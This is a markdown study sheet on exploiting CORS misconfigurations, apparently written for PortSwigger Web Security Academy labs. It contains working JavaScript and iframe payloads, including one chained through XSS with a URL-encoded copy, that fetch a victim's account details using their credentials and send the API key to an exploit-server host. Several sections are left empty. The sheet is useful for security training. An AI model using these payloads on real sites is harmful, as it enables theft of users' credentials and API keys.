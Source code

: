 # CORS

## Types:

1. Server-generated ACAO header from client-specified Origin header
2. Errors parsing Origin headers
3. Whitelisted null origin value
4. Exploiting XSS via CORS trust relationships
5. Breaking TLS with poorly configured CORS
6. Intranets and CORS without credentials 
---

## How to find each type:

1. Server-generated ACAO header from client-specified Origin header
- Attempt to use a random origin in the `Origin` header.
- See if the origin is reflected in the  `Access-Allow-Control-Origin` header.
2. Errors parsing Origin headers
- See if you can use subdomains or domains that end with the whitelisted domain.
3. Whitelisted null origin value
- Put `null` in the origin header and see if it is reflected.
4. Exploiting XSS via CORS trust relationships
- Check to see if subdomains are allowed in the `Access-Allow-Control-Origin` header.
- If they are, see if there is XSS on these domains.
5. Breaking TLS with poorly configured CORS
-
6. Intranets and CORS without credentials 
-
---

## How to exploit each type:

1. Server-generated ACAO header from client-specified Origin header
```js
<script>
  function getadmin() {
      var res = JSON.parse(this.response)
      fetch("https://exploit-0ac9009003aa0ee18189ec3601fa001a.exploit-server.net/accountdetails?" + res.apikey);
  }
  
  const request = new XMLHttpRequest();
  request.addEventListener("load", getadmin);
  request.open("GET", "https://0a13001d03130e4c81a6ed270097004e.web-security-academy.net/accountdetails", true);
  request.withCredentials = true;
  request.send();
</script>
```
2. Errors parsing Origin headers
- If `normal-website.com` is ok then try `hackersnormal-website.com`.
3. Whitelisted null origin value
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://0a13001d03130e4c81a6ed270097004e.web-security-academy.net/accountdetails',true);
req.withCredentials = true;
req.send();

function reqListener() {
var res = JSON.parse(this.response)
location = 'https://exploit-0ac9009003aa0ee18189ec3601fa001a.exploit-server.net/accountdetails?' + res.apikey;
};
</script>"></iframe>
```
4. Exploiting XSS via CORS trust relationships
- Use XSS with the first CORS exploit:
  ```html
  <script>
    location="http://subdomain/?param=<%3Cscript%3Evar+req+%3D+new+XMLHttpRequest%28%29%3B+req.onload+%3D+reqListener%3B+req.open%28%27get%27%2C%27https%3A%2F%2F0a7f000b04d942c38151111c002900a6.web-security-academy.net%2FaccountDetails%27%2Ctrue%29%3B+req.withCredentials+%3D+true%3Breq.send%28%29%3Bfunction+reqListener%28%29+%7Bvar+res+%3D+JSON.parse%28this.response%29%3B+location%3D%27https%3A%2F%2Fexploit-0a350083041a4269817d1092013b00eb.exploit-server.net%2FaccountDetails%3Fkey%3D%27%2Bres.apikey%3B%7D%3B%3C%2Fscript%3E"
  </script>

  hackvertor to urlencode
  <@urlencode><script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a7f000b04d942c38151111c002900a6.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {var res = JSON.parse(this.response); location='https://exploit-0a350083041a4269817d1092013b00eb.exploit-server.net/accountDetails?key='+res.apikey;};</script><@/urlencode>
  
  Result:
  %3Cscript%3Evar+req+%3D+new+XMLHttpRequest%28%29%3B+req.onload+%3D+reqListener%3B+req.open%28%27get%27%2C%27https%3A%2F%2F0a7f000b04d942c38151111c002900a6.web-security-academy.net%2FaccountDetails%27%2Ctrue%29%3B+req.withCredentials+%3D+true%3Breq.send%28%29%3Bfunction+reqListener%28%29+%7Bvar+res+%3D+JSON.parse%28this.response%29%3B+location%3D%27https%3A%2F%2Fexploit-0a350083041a4269817d1092013b00eb.exploit-server.net%2FaccountDetails%3Fkey%3D%27%2Bres.apikey%3B%7D%3B%3C%2Fscript%3E

  Portswiggers solution:
  <script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a7f000b04d942c38151111c002900a6.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a350083041a4269817d1092013b00eb.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>
  ```
5. Breaking TLS with poorly configured CORS
- This attack involves the following steps:
  - The victim user makes any plain HTTP request.
  - The attacker injects a redirection to: `http://trusted-subdomain.vulnerable-website.com`
  - The victim's browser follows the redirect.
  - The attacker intercepts the plain HTTP request, and returns a spoofed response containing a CORS request to: `https://vulnerable-website.com`
  - The victim's browser makes the CORS request, including the origin: `http://trusted-subdomain.vulnerable-website.com`
  - The application allows the request because this is a whitelisted origin. The requested sensitive data is returned in the response.
  - The attacker's spoofed page can read the sensitive data and transmit it to any domain under the attacker's control.
6. Intranets and CORS without credentials 
-
---

## Other important notes:
- Look for the `Access-Allow-Control-Origin` header.
